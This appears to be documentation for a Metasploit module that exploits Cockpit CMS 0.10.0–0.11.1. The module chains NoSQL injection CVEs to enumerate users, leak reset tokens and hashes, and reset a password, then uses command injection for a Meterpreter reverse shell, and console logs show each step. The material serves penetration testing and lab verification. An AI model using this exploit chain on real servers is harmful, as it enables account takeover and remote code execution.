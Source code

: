 ## Vulnerable Application

This module exploits two NoSQLi vulnerabilities to retrieve the user list,
and password reset tokens from the system.  Next, the USER is targeted to
reset their password.

Then a command injection vulnerability is used to execute the payload.
While it is possible to upload a payload and execute it, the command injection
provides a no disk write method which is more stealthy.

The following versions of Cockpit CMS contain all the necessary vulnerabilities for exploitation:

* 0.11.1
* 0.11.0
* 0.10.2
* 0.10.1
* 0.10.0

### Install

Use docker:

```
docker run -p 8080:80 agentejo/cockpit:0.10.0
```

Or follow https://blog.sommerfeldsven.de/how-to-install-cockpit-cms-on-nginx/

MAKE SURE TO BROWSE TO `/install` TO FINISH INSTALL!!

Some useful addresses which don't seem to be well documented:

* `/finder` for a file system browser
* `/accounts` for adding accounts
* `/install` to finish install

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/cockpit_cms_rce`
1. Do: `run`
1. Do: `set USER [user]`
1. Do: `run`
1. You should get a shell.

## Options

### ENUM_USERS

Use CVE-2020-35846 to enumerate users on the system.

### USER

Username to reset the password of, and login as to perform the command injection with. Defaults to `''`

## Scenarios

### Cockpit CMS 0.11.1 on Ubuntu 20.04

#### Obtain list of users

```
[*] Processing cockpit.rb for ERB directives.
resource (cockpit.rb)> use exploit/multi/http/cockpit_cms_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (cockpit.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (cockpit.rb)> set verbose true
verbose => true
msf exploit(multi/http/cockpit_cms_rce) > check

[*] Attempting Username Enumeration (CVE-2020-35846)
[*] 2.2.2.2:80 - The target appears to be vulnerable.
msf exploit(multi/http/cockpit_cms_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "asdf22", "4g4gsegs"]
[-] Exploit aborted due to failure: bad-config: 2.2.2.2:80 - User to exploit required
[*] Exploit completed, but no session was created.
```

#### Exploit user

```
msf exploit(multi/http/cockpit_cms_rce) > set user asdf22
user => asdf22
msf exploit(multi/http/cockpit_cms_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "asdf22", "4g4gsegs"]
[*] Obtaining reset tokens (CVE-2020-35847)
[*] Attempting to generate tokens
[*] Obtaining reset tokens (CVE-2020-35847)
[+]   Found tokens: ["rp-09397d385d8b4d781906f1bde62a3da8607c4193bc15c"]
[*] Checking token: rp-09397d385d8b4d781906f1bde62a3da8607c4193bc15c
[*] Obtaining user info
[*]   user: asdf22
[*]   email: none@none.com
[*]   active: true
[*]   group: admin
[*]   i18n: en
[*]   api_key: account-8d9e39cf206a7392d292efc281e824
[*]   password: $2y$10$R4mShvdxnXxxnTH85apRLedSWfYbOk4qsGQwG7apOfdQBVRnhEcme
[*]   name: dsf22
[*]   _modified: 1618755509
[*]   _created: 1618755500
[*]   _id: 607c3fac62336679e30002c3
[*]   _reset_token: rp-09397d385d8b4d781906f1bde62a3da8607c4193bc15c
[*]   md5email: 3eda6fcd3204ef285fa52176c28c4d3e
[+] Changing password to BoicMQSMPv
[+] Password update successful
[*] Attempting login
[+] Valid cookie for asdf22: c8695f6d766afc426d0e99f58fb04e0d=d3t7e356h03eufhuc55g91kgsb;
[*] Attempting RCE
[*] Sending stage (39282 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:37260) at 2021-04-18 10:26:27 -0400

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu2004
OS          : Linux ubuntu2004 5.4.0-56-generic #62-Ubuntu SMP Mon Nov 23 19:20:19 UTC 2020 x86_64
Meterpreter : php/linux
```
